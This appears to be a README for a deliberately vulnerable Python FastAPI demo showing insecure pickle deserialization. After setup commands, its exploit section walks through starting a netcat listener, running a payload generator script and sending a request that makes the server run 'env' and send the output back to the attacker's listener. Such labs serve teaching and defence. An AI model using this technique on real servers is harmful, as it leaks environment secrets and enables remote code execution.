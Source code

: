 # Demo Insecure Deserialization
Demo Insecure Deserialization in Python web application using FastAPI + Async SQLAlchemy + Postgres database + Docker.

# prerequirement
This app require create postgress database before start
```
docker compose up -d --build postgres
docker compose exec -it postgres bash
createdb -h localhost -p 5432 -U dev-user ktltat_db
psql -h localhost -p 5432 -U dev-user -d ktltat_db
```

# run
Back to terminal and follow below steps:
```
docker compose up -d --build
docker compose exec ktltat_app alembic revision --autogenerate -m "initdb"
docker compose exec ktltat_app alembic upgrade head
```

# exploit
## Init netcat listener

```
nc -nvlp 1337 
```
![Image](./images/init_netcat_listener.jpg)

## Get your local ip

```
ip a
note: local ip often id formated: 192.168.x.x
```
![Image](./images/get_your_local_ip.jpg)

## Gen shell
```
note: Must change variable local_ip in shell_grenerator.py file before
python shell_grenerator.py
```
![Image](./images/generate_shell.jpg)

## Send request attach shell
![Image](./images/send_request_attach_shell.jpg)

## Exploit success
After send request attach shell, pickle module ran "env" command and sent output to netcat listener

![Image](./images/exploit_success.jpg)
